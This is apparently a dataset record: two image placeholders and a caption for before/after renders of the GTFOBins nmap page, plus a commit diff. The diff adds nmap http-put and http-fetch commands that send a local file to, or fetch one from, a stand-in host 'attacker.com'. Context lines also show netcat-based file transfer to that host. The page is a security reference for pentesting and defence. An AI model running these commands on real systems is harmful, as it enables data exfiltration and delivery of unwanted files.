

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nmap.md, in a window 1280 px wide and 1400 px high, scrolled down 1125 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add alternative nmap file upload/download
Close #67.

```diff
--- a/_gtfobins/nmap.md
+++ b/_gtfobins/nmap.md
@@ -39,6 +39,12 @@ functions:
         end;c:close();f:close();' > $TF
         nmap --script=$TF
   file-upload:
+    - description: Send a file to a TCP port. Run `socat -v tcp-listen:8080,reuseaddr,fork - on the attacker box to collect the file or use a proper HTTP server. Note that multiple connections are made to the server. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
+      code: |
+        RHOST=attacker.com
+        RPORT=8080
+        LFILE=file_to_send
+        nmap -p $RPORT $RHOST --script http-put --script-args http-put.url=/,http-put.file=$LFILE
     - description: Send a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
       code: |
         export RHOST=attacker.com
@@ -55,6 +61,13 @@ functions:
         t:close();' > $TF
         nmap --script=$TF
   file-download:
+    - description: Fetch remote file sent to a local TCP port. Run a proper HTTP server on the attacker box to send the file, e.g., `php -S 0.0.0.0:8080`. Note that multiple connections are made to the server and the result is placed in `$TF/IP/PORT/PATH`. Also, it is important that the port is a commonly used HTTP like 80 or 8080.
+      code: |
+        RHOST=attacker.com
+        RPORT=8080
+        TF=$(mktemp -d)
+        LFILE=file_to_save
+        nmap -p $RPORT $RHOST --script http-fetch --script-args http-fetch.destination=$TF,http-fetch.url=$LFILE
     - description: Fetch remote file sent to a local TCP port. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
       code: |
         export LPORT=12345
```
